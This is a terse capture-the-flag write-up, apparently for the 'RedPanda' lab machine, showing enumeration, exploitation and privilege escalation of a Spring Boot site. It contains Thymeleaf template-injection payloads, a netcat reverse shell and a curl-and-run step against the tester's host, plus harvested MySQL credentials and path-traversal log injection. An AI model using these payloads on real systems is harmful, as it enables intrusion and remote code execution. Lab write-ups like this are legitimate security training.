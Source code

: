 # RedPanda

## Enumeration
### Nmap
SSH: 8.4
HTTP: 8080 Spring boot

### Gobuster
/stats

### Web
Proxy? p8080
Spring boot

#### POST /search
name=<name>
SSTI

#### GET /stats?author=<name>
Users: woodenk, damian
#### GET /export.xml?author=<name>
#### GET /error

## Pwn
### SSTI
POST /search
`42*42` -> 1764
`#{42*42}` -> ??1764_en_US??

**bad chars**: $~_
**error chars**: %){}\
**encoded chars**: &'"<>

Probably Thymeleaf as templating engine

`*{T(java.lang.System).getenv()}` -> works!
{PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, SHELL=/bin/bash, JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64, TERM=unknown, USER=woodenk, LANG=en_US.UTF-8, SUDO_USER=root, SUDO_COMMAND=/usr/bin/java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar, SUDO_GID=0, MAIL=/var/mail/woodenk, LOGNAME=woodenk, SUDO_UID=0, HOME=/home/woodenk}

`*{T(java.lang.Runtime).getRuntime().exec('nc+-c+sh+10.10.16.6+9001')}`
$ curl 10.10.16.6:9002/shell.java -o /tmp/shell.java
$ java /tmp/shell.java

woodenk $ cat /home/woodenk user.txt
4262cf760b49695154c2a39c05f58fd1

## Priv Esc
```bash
root         864  0.0  0.0   2608   596 ?        Ss   08:52   0:00      _ /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root         865  0.0  0.2   9416  4584 ?        S    08:52   0:00          _ sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
woodenk      875  3.5 10.2 3101420 208768 ?      Sl   08:52   0:18              _ java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```

### MySQL
"jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule"
$ mysql -h localhost -u woodenk -p RedPandazRule red_panda

### LogParser app
```java
<dependency>
  <groupId>org.jdom</groupId>
  <artifactId>jdom2</artifactId>
  <version>2.0.6.1</version>
</dependency>
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
/opt/panda_search/src/main/resources/static/img
mysql> insert into pandas (name, bio, imgloc, author) values ('Exploit_panda', 'It will try to exploit you!', '../../../../../../home/woodenk/exploit.jpg', 'exploit');

$ echo '200||10.10.16.6||Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/../../../../../../home/woodenk/exploit.jpg' >> redpanda.log
